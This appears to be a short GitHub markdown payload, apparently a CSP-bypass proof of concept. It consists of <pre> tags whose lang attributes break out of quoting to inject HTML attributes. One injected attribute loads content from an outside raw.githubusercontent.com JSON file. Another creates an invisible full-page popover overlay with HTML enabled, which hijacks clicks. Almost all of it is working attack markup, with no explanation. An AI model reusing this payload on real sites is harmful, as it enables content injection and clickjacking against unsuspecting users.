 <a>
  <pre lang='/" data-diff-for-path="https://raw.githubusercontent.com/smartaptlimited/new/main/aaa.json"'>
    <code lang="wavedrom">csp</code>
  </pre>
  <pre lang='/" id="stage1" style="position:absolute;max-width:10000px;left:-1000px;top:-1000px;width:10000px;height:10000px;z-index:10000;" data-triggers="click" data-toggle="popover" data-html="true" data-title="aaa&lt;style&gt;#stage1{pointer-events:none}svg.chevron-right{position:absolute;max-width:10000px;left:-1000px;top:-1000px !important;width:10000px;height:10000px;z-index:10001;}&lt;/style&gt;bbb" data-content="ggg">
    <code lang="wavedrom">bypass</code>
  </pre>
</a>

